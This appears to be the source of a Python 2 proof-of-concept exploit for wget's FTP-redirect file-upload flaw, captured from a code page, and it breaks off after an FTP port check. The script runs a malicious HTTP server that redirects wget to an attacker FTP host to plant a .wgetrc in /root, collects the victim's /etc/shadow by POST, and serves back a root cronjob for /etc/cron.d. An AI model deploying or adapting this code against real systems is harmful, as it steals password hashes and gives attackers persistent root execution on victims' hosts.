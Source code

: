 ```
class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.29'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
```
